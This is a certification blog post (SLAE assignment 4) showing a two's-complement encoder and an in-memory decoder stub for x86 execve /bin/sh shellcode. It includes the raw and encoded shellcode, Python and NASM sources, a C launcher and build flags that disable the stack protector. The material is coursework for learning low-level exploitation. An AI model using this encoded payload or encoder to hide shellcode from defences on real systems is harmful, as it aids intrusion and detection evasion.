






# Assignment #4 - Custom Encoder 

**Exercise description:** Creating a custom encoding scheme similar to the *insertion encoder* technique. The PoC should make use of *execve-stack* as the shellcode to encode with the proposed schema.

**Code:** The code used within this article can be found [here](https://github.com/SDugo/sdugo.github.io/tree/master/SLAE/Assignment_4/Code)

To complete this task the following system was used:
###### `Linux 3.11.0-15-generic #25~precise1-Ubuntu SMP i686 i386 GNU/Linux`

Encoding is a technique used to disguise malicious shellcode on apparently unuseful code. The purpose of this assignment is to create a custom encoder/decoder capable of hiding a shellcode that will launch a shell using the *execve* syscall.

To complete this task is necessary to fulfill three sub-tasks:

1. Generating the malicious shellcode to execute
2. Encoding the shellcode using a custom schema
3. Decoding the shellcode *on the fly*

*To summarize, the techniques for compiling assembly files and extracting the shellcode from a binary file will be explained on the Executing the Code section.*

## Generating the malicious shellcode to execute

For this task, the shellcode used will be an *execve()* syscall to invoke a shell.
````
global _start			

section .text
_start:

	; PUSH the first null dword 
	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes) 

	push 0x68732f2f
	push 0x6e69622f

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
	mov ecx, esp

	mov al, 11
	int 0x80

````
``execve-stack.nasm``

````
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
````
``execve-stack shellcode``

## Encoding the shellcode using a custom schema

The encoding schema created will translate every byte to its two complement byte.

````
#!/usr/bin/python

# Two complement encoder
import random

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encoded2 = ""

print('Encoding shellcode ...')

for x in bytearray(shellcode) :
     bin_int = '{0:08b}'.format(x)
     flipped_bin = '{0:08b}'.format(int(bin_int,2) ^ int(bin(0xFF),2))
     two_complement = '{0:08b}'.format(int(flipped_bin,2) + int('1',2))
     two_complement_hex = hex(int(two_complement,2))
     encoded += '\\x' + ('%02x' % int(two_complement,2))
     encoded2 += two_complement_hex + ','

print('Len: %d' % len(bytearray(shellcode)))
print(encoded)
print(encoded2[:-1])
````
``two_complement_encoder.py``

The output of this script will be a shellcode string with the same length as the original, but the result will seem scrambled.



``Example of execution of two_complement_encoder.py``

````
\xcf\x40\xb0\x98\xd1\xd1\x8d\x98\x98\xd1\x9e\x97\x92\x77\x1d\xb0\x77\x1e\xad\x77\x1f\x50\xf5\x33\x80
````
``Shellcode generated by the encoder``

## Decoding the shellcode on the fly

The decoder will use the *neg* instruction to revoke the two's complement method applied on the encoding process. After that, it will be possible to execute the payload encoded.

````
; Filename:   two_complement_decoder.nasm
; Author:     Samuel Dugo
; SLAE-ID:    SLAE-1376
; Size:       58 bytes (33 bytes for decoder + 25 bytes for payload)
; Purpose:    Assignment #4 of SLAE certification. This shellcode decodes an encoded shellcode using the two's complement method.

global _start			

section .text
_start:
	jmp short call_shellcode

load_and_clean:
        pop esi                      ;loads EncodedShellcode on esi
        lea edi, [esi]	              ;saves a pointer of start of EncodedShellcode on edi for going through the shellcode
        xor eax, eax	              ;cleans eax register
	cdq		              ;cleans edx register

decode:
        mov dl, byte [esi + eax]     ;loads on dl the byte to be decoded
	cmp dl,0xdd                  ;checks if the byte is the terminator byte defined
        jz short EncodedShellcode    ;if so, the shellcode has been decoded and program can execute the payload
	neg dl			      ;reverses the two's complementary method
        mov byte [edi], dl	      ;substitutes the encoded byte with the decoded byte on EncodedShellcode
        inc edi		      ;increments the pointer to the next byte to be substituted
	inc eax                      ;increments the counter to allow to load the next byte on dl
        mov dl, byte [esi + eax]     ;loads the next byte on dl
        jmp decode                   ;decodes next byte

call_shellcode:

	call load_and_clean ;load the payload on esp using jmp-call-pop technique
	;very important, including the terminator character (0xdd) at the end of EncodedShellcode and avoiding the use of this character on the EncodedShellcode
	EncodedShellcode: db 0xcf,0x40,0xb0,0x98,0xd1,0xd1,0x8d,0x98,0x98,0xd1,0x9e,0x97,0x92,0x77,0x1d,0xb0,0x77,0x1e,0xad,0x77,0x1f,0x50,0xf5,0x33,0x80,0xdd
````
***It is very important to add the terminator character (0xDD) at the end of EncodedShellcode, otherwise the program will fail on its execution.***


### Decoder Segmentation Fault

Executing the assembly code without including it on a *shellcode launcher* will result on a segmentation fault. This is because the program won't be able to overwrite read-only data located in the *.text* section, which is the case for *EncodedShellcode* variable.

To prove that, it is possible to execute the assembly code and perform the tests presented on the screenshot below.



``Explanation of the segmentation fault on two_complement_decoder.nasm``

## Executing the Code
At this point, it is possible to execute the code and get the encoded shell by following these steps:

To compile the NASM file with the egg hunter code, the following bash script is used.

````
#!/bin/bash
#Example of execution: ./compile.sh two_complement_decoder

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

Then it is necessary to obtain the shellcode of the program using the following command: ``objdump -d ./two_complement_decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'``

Using this information, it is possible to generate a PoC on C language.
````
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x19\x5e\x8d\x3e\x31\xc0\x99\x8a\x14\x06\x80\xfa\xdd\x74\x10\xf6\xda\x88\x17\x47\x40\x8a\x14\x06\xeb\xed\xe8\xe2\xff\xff\xff\xcf\x40\xb0\x98\xd1\xd1\x8d\x98\x98\xd1\x9e\x97\x92\x77\x1d\xb0\x77\x1e\xad\x77\x1f\x50\xf5\x33\x80\xdd";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
````
``shellcode.c``

To compile this C code, the following bash script could be executed including the name of the C file (without extension):

````
#!/bin/bash
#Example of execution ./compile_shellcode.sh shellcode

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``

Finally, it is possible to execute the shellcode and get a shell. However, for this assignment the demo will consist on debugging the execution of the program using GDB.



``Initial situation``

After program's execution it is possible to see that this time there is no segmentation fault error when decoding the first encoded byte (0xcf -> 0x31).



``Byte decoded demo``

When the decoding process is finished, the payload is ready to be executed.



``Shellcode decoded``

As soon as the payload is executed, the program will invoke the *hidden* shell.



``Shellcode execution``

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:*

*https://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*

*Student ID: SLAE-1376*
